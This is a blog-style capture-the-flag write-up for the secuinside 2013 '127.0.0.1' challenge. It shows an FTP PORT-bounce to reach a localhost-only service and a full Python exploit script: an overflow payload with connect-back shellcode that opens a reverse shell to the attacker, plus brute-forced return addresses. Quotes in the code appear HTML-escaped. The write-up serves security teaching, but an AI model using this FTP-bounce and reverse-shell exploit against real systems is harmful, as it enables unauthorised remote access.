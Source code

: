 ```yaml
---
title: secuinside CTF Quals 2013 127.0.0.1 writeup
author: cbmixx
layout: post
permalink: /secuinside-ctf-quals-2013-127-0-0-1-writeup/
categories:
  - Uncategorized
---
```

We need to connect to a service restricted to be accessed from localhost only. An FTP server is also supplied to public.

Soon we realized that `PORT` command may help us bypass the limitation. For example,

<pre>PORT 127,0,0,1,12,60
RETR /path/to/payload
</pre>

will make FTP server connect to 127.0.0.1:3126, and send content of the file to it.

We just used standard buffer overflow way to run connect back shellcode and get the key.

Note that FTP server sends and then closes socket immediately, which means payload too short will cause `localonly` breaking its own sending procedure in early stage. We need payload large enough to make `send()` blocked until `recv()` called in localonly. 64kB seems to be OK for that.

<pre>#!/usr/bin/env python2
import sys
from ftplib import FTP
from telnetlib import Telnet
import struct

from pwn import * # thanks pwnies
context('i386', 'linux', 'ipv4')

HOST = 
PORT = 
FTP_HOST = '54.214.247.89'

sc = asm(shellcode.connectback(HOST, PORT))

def get_payload(f, addr):
    f.write('\x90' * 88)
    f.write('\x00\xf2\xff\xbf')
    f.write(struct.pack('&lt;I&#039;, addr))

    f.write(&#039;\x90&#039; * (0x200 - len(sc) - 96))
    f.write(sc)
    f.write(&#039;\x90&#039; * (0x10000 - 0x200))

def upload(f, path):
    ftp = FTP(FTP_HOST)
    ftp.login()
    ftp.set_pasv(False)
    print ftp.storbinary(&#039;STOR &#039; + path, f)
    ftp.quit()
    f.close()

def run(path):
    s = Telnet(FTP_HOST, 21, 5)
    print s.read_until(&#039;220&#039;)
    s.write(&#039;USER anonymous\n&#039;)
    print s.read_until(&#039;331&#039;)
    s.write(&#039;PASS a\n&#039;)
    print s.read_until(&#039;230&#039;)
    s.write(&#039;TYPE I\n&#039;)
    print s.read_until(&#039;200&#039;)
    s.write(&#039;PORT 127,0,0,1,12,60\n&#039;)
    print s.read_until(&#039;200&#039;)
    s.write(&#039;RETR %s\n&#039; % path)
    print s.read_until(&#039;150&#039;)
    print s.read_until(&#039;226&#039;)
    s.write(&#039;QUIT\n&#039;)
    print s.read_until(&#039;221&#039;)
    s.close()


p = &#039;/tmp/p&#039;
fn = &#039;p&#039;
for addr in xrange(0xbfffff80, 0xbfff0000, -0x80):
    f = open(fn, &#039;wb&#039;)
    get_payload(f, addr)
    f.close()
    f = open(fn, &#039;rb&#039;)
    upload(f, p)
    run(p)
</pre>